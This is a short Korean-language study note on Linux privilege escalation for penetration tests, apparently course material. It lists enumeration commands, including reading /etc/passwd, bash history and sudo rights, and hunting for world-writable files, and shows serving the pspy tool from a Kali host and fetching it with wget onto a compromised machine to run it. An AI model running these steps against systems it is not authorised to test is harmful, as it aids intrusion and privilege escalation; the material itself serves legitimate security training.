 # 리눅스 권한 상승

Linux 시스템의 루트 계정은 운영 체제에 대한 전체 관리자 수준의 액세스 권한을 제공합니다. 평가 중에 Linux 호스트에서 낮은 권한의 셸을 확보하고 루트 계정으로 권한 상승을 수행해야 할 수 있습니다. 호스트를 완전히 손상시키면 트래픽을 캡처하고 민감한 파일에 액세스할 수 있으며, 이는 환경 내에서 추가 액세스에 사용될 수 있습니다. 또한 Linux 컴퓨터가 도메인에 가입되어 있는 경우 NTLM 해시를 획득하여 Active Directory를 열거하고 공격하기 시작할 수 있습니다.

## 열거

얻어야 할 정보

* `OS 버전`: 배포판(우분투, 데비안, FreeBSD, 페도라, 수세, 레드햇, 센트OS 등)을 알면 사용 가능한 도구의 유형을 파악할 수 있습니다. 또한 사용 가능한 공개 익스플로잇이 있을 수 있는 운영 체제 버전도 식별할 수 있습니다.
* `커널 버전`: OS 버전과 마찬가지로 특정 커널 버전의 취약점을 노리는 공개 익스플로잇이 있을 수 있습니다. .
* `실행 중인 서비스`: 호스트에서 실행 중인 서비스, 특히 루트로 실행 중인 서비스를 파악하는 것이 중요합니다.  Nagios, Exim, Samba, ProFTPd 등과 같은 많은 일반적인 서비스에서 결함이 발견되었습니다.&#x20;

```bash
//열거 명령어
ps aux | grep root #현재 프로세스 나열
ps au #현재 프로세스 나열
history #배시 기록
sudo -l #사용자 권한 나열
cat /etc/passwd #비밀번호 읽기
ls -la /etc/cron.daily/ #예약 작업 확인
lsblk #파일 시스템 및 추가 드라이브 읽기
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null #쓰기 가능한 디렉터리 찾기
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null #쓰기 가능한 파일 찾기
netstat -tnl #TCP 연결, ip주소와 포트 번호, 리스닝 상태 등 정보 표시 
 
```

### PSpy

다양한 정보 획득 가능&#x20;

```bash
//칼리리눅스에서 
python -m http.server 80

//침투컴퓨터에서
wget 10.10.14.47/pspy32
./pspy32 #권한문제로 안된다면 chmod 사용
```

